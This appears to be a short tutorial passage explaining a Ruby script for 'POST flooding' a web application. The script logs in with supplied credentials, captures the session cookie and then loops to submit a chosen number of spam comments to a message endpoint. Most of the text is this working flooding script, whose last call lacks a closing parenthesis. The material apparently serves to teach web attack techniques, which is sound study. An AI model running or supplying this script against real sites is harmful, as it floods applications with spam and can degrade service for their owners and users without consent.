


Script: POST flooding
• Net::HTTP.new(...) → create a new Net::HTTP instance and specify the target address. It is important to say that creating such an instance does not open the connection with the specified server address. (
documentation)
Login Process• URI.encode_www_form({...}) → encoded form data (in this example the parameters for the login)
• http.post("/login.php",login_param)
• login_res['set-cookie'] → obtain the session id from the ‘set-cookie’ response header
Post FloodingWe have to use the SESSION-ID received from the login process as a ‘cookie’ header to be able to post any comment.
require 'net/http'
Target_URI = URI(ARGV[0])
Username = ARGV[1]
Password = ARGV[2]
Max_Comments = ARGV[3].to_i
http = Net::HTTP.new(Target_URI.hostname)
login_param = URI.encode_www_form({"user"=>Username,"pass"=>Password})
login_res = http.post("/login.php",login_param)
session_id = login_res['set-cookie']
flood_parameters = URI.encode_www_form({"name"=>"FLOOD","comment"=>"FROM RUBY","cat"=>"1"})
(1..Max_Comments).each {
http.post("/sendmsg_confirmation.php",flood_parameters,"cookie"=>session_id
}